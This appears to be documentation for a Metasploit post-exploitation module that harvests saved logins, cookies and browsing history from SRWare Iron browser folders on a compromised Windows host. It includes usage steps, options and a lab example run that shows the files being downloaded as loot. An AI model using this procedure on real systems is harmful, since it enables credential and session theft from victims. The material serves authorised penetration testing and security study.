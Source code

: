 ## Module Description

This post-exploitation module gathers artifacts found on Srware related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/srware
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by defalt and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
  ```
msf6 post(windows/gather/credentials/srware) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Srware's parent folder found
[*] Srware's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Local\Chromium\User Data\Default\Login Data
[*] Srware Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210521114418_default_192.168.56.106_srwareLoginData_139981.bin

[+] File with data saved:  /root/.msf4/loot/20210521114419_default_192.168.56.106_EXTRACTIONSLogin_290137.bin
[*] Srware's parent folder found
[*] Srware's Cookies file found
[*] Downloading C:\Users\IEUser\AppData\Local\Chromium\User Data\Default\Cookies
[*] Srware Cookies downloaded
[+] File saved to:  /root/.msf4/loot/20210521114419_default_192.168.56.106_srwareCookies_321317.bin

[+] File with data saved:  /root/.msf4/loot/20210521114419_default_192.168.56.106_EXTRACTIONSCooki_375774.bin
[*] Srware's parent folder found
[*] Srware's History file found
[*] Downloading C:\Users\IEUser\AppData\Local\Chromium\User Data\Default\History
[*] Srware History downloaded
[+] File saved to:  /root/.msf4/loot/20210521114420_default_192.168.56.106_srwareHistory_849488.bin

[+] File with data saved:  /root/.msf4/loot/20210521114420_default_192.168.56.106_EXTRACTIONSHisto_063608.bin
[*] PackRat credential sweep Completed
[*] Post module execution completed
  ```